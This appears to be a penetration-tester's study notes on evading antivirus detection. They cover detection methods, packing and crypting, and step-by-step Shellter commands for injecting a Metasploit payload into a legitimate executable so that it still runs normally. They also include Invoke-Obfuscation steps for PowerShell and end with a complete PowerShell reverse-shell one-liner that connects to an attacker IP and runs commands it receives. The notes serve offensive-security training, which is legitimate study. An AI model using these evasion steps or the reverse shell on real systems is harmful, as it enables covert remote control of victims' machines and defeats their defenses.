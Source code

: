 ## AV Detection Methods
- Signature based detection
- Heuristic based detection
- Behaviour bsed detection

## On-disk evasion techniques
- Obfuscation: Reorganize code and make it harder to analyze or RE
- Encoding: Changing data into a new format
- Packing: Generate a binary with a smaller size and a new signature
- Crypter: Encrypts code or payloads and decrypts the encrypted code in memory

## In-memory evasuib techinques
- Manipulation of memory and does not write to disk
- Injects payload into a process by levaraging various Windows API
- Payload is then executed in memory in separate thread
- Using #tools/evasion/shellter
	- Can inject code into 32-bit applications
	```
	sudo dpkg --add-architecture i386
	sudo apt-get install wine32
	cd /usr/share/windows-resources/shellter
	sudo wine shellter.exe
	Auto/Manual: A
	Path: /<path>/<target_executable>
	Stealth: Y
	Payload: L
	SET LHOST
	SET LPORT


	Start msfconsole multi/handler with the same payload that was used while creating the malicious file
	```
	- The file provided is now malicious but a backup is created as well in `shellter_backup`
	- The original application will work as it is but will also run the malicious code

## Obfuscating Powershell Code
- `Invoke-Obfuscation`
```
sudo apt-get install powershell
pwsh
> cd Invoke-Obfuscation
> Import-Module ./Invodke-Obfuscation.psd1
> Invoke-Obfuscation
Invoke-Obfuscation> SET SCRIPTPATH <ps1 path>
Invoke-Obfuscation> AST
Invoke-Obfuscation\AST> All
Invoke-Obfuscation\AST\All> 1
```

The shell looks like:
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<ATTACKERS_IP>',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```